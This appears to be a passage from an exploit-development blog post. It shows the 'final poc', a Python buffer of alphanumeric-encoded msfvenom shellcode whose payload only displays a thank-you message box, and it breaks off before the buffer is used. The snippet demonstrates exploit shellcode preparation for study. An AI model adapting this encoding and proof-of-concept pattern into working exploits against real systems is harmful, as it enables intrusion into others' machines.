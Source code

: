 ```term
buf += b"\x71\x36\x51\x39\x42\x33\x62\x66\x33\x53\x61\x50\x52"
buf += b"\x6b\x4f\x48\x50\x30\x31\x6f\x30\x62\x70\x49\x6f\x42"
buf += b"\x75\x34\x48\x41\x41"
```

Final poc:

```term
import struct 

# msfvenom -p windows/messagebox TEXT='Thanks for reading the post! Until next time!' -f py -e x86/alpha_mixed EXITFUNC=thread 
BufferRegister=EAX
# Payload size: 668 bytes

buf =  b""
buf += b"\x50\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x68\x59\x48\x6b\x6f\x6b\x59\x49\x61\x64\x54\x64\x79"
buf += b"\x64\x35\x61\x7a\x72\x4f\x42\x70\x77\x35\x61\x4f\x39"
buf += b"\x55\x34\x6c\x4b\x74\x31\x46\x50\x4c\x4b\x52\x56\x44"
buf += b"\x4c\x6c\x4b\x44\x36\x47\x6c\x6c\x4b\x32\x66\x37\x78"
buf += b"\x6c\x4b\x61\x6e\x57\x50\x4c\x4b\x47\x46\x57\x48\x72"
buf += b"\x6f\x54\x58\x34\x35\x79\x63\x73\x69\x43\x31\x4a\x71"
buf += b"\x49\x6f\x39\x71\x31\x70\x4c\x4b\x42\x4c\x75\x74\x64"
buf += b"\x64\x4e\x6b\x67\x35\x65\x6c\x4c\x4b\x33\x64\x64\x68"
buf += b"\x52\x58\x53\x31\x48\x6a\x6e\x6b\x70\x4a\x77\x68\x4c"
buf += b"\x4b\x51\x4a\x67\x50\x56\x61\x6a\x4b\x39\x73\x37\x44"
buf += b"\x57\x39\x4e\x6b\x64\x74\x6c\x4b\x57\x71\x48\x6e\x35"
buf += b"\x61\x6b\x4f\x65\x61\x79\x50\x49\x6c\x6c\x6c\x4c\x44"
buf += b"\x39\x50\x53\x44\x45\x57\x4a\x61\x78\x4f\x44\x4d\x33"
buf += b"\x31\x79\x57\x4a\x4b\x69\x64\x77\x4b\x33\x4c\x64\x64"
buf += b"\x54\x68\x64\x35\x58\x61\x4e\x6b\x71\x4a\x47\x54\x57"
buf += b"\x71\x68\x6b\x53\x56\x4e\x6b\x76\x6c\x70\x4b\x4e\x6b"
buf += b"\x52\x7a\x75\x4c\x33\x31\x48\x6b\x4c\x4b\x65\x54\x6c"
buf += b"\x4b\x45\x51\x69\x78\x4e\x69\x37\x34\x35\x74\x47\x6c"
buf += b"\x43\x51\x48\x43\x6c\x72\x63\x38\x75\x79\x48\x54\x6c"
buf += b"\x49\x4d\x35\x6c\x49\x79\x52\x73\x58\x6c\x4e\x62\x6e"
buf += b"\x64\x4e\x6a\x4c\x51\x42\x58\x68\x6f\x6f\x79\x6f\x39"
buf += b"\x6f\x49\x6f\x6d\x59\x37\x35\x73\x34\x4f\x4b\x7a\x4f"
buf += b"\x68\x4e\x79\x70\x53\x50\x4d\x57\x75\x4c\x55\x74\x46"
buf += b"\x32\x7a\x48\x4e\x6e\x49\x6f\x6b\x4f\x4b\x4f\x4c\x49"
buf += b"\x72\x65\x43\x38\x62\x48\x42\x4c\x30\x6c\x77\x50\x73"
buf += b"\x71\x62\x48\x77\x43\x65\x62\x34\x6e\x52\x44\x55\x38"
buf += b"\x34\x35\x71\x63\x53\x55\x73\x42\x76\x50\x4b\x6b\x6f"
buf += b"\x78\x53\x6c\x67\x54\x45\x5a\x6d\x59\x78\x66\x56\x36"
buf += b"\x39\x6f\x50\x55\x54\x44\x6b\x39\x6a\x62\x46\x30\x6d"
buf += b"\x6b\x6e\x48\x4e\x42\x30\x4d\x4f\x4c\x4d\x57\x47\x6c"
buf += b"\x51\x34\x43\x62\x48\x68\x51\x4f\x39\x6f\x49\x6f\x39"
buf += b"\x6f\x71\x78\x70\x6f\x64\x38\x61\x48\x61\x30\x55\x38"
buf += b"\x43\x51\x50\x67\x52\x45\x62\x62\x61\x78\x32\x6d\x53"
buf += b"\x55\x71\x63\x34\x33\x54\x71\x4b\x6b\x6d\x58\x53\x6c"
buf += b"\x34\x64\x65\x5a\x4c\x49\x5a\x43\x65\x38\x65\x71\x56"
buf += b"\x38\x67\x50\x77\x50\x43\x58\x54\x34\x42\x49\x42\x4d"
buf += b"\x75\x35\x55\x38\x61\x75\x32\x58\x51\x64\x65\x70\x51"
buf += b"\x78\x31\x79\x42\x4c\x71\x30\x30\x6e\x43\x58\x31\x30"
buf += b"\x50\x55\x70\x6e\x63\x44\x55\x38\x50\x6f\x43\x43\x71"
buf += b"\x64\x54\x61\x45\x38\x73\x58\x70\x65\x77\x50\x30\x70"
buf += b"\x43\x58\x50\x6e\x31\x77\x61\x30\x70\x74\x61\x78\x35"
buf += b"\x35\x55\x31\x61\x74\x65\x39\x53\x58\x50\x6f\x71\x62"
buf += b"\x77\x50\x62\x52\x75\x38\x70\x6b\x53\x43\x75\x70\x51"
buf += b"\x76\x32\x48\x36\x34\x55\x38\x50\x61\x72\x4e\x45\x61"
```